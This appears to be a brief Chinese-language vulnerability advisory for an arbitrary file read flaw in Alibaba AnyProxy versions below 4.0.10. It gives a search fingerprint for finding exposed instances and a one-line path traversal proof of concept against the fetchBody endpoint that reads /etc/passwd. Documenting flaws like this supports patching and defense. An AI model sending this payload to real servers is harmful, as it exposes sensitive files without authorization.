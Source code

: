 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## 网络测绘

```
"anyproxy"
```

## 漏洞复现

页面如下

![](images/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](images/202202102008683.png)

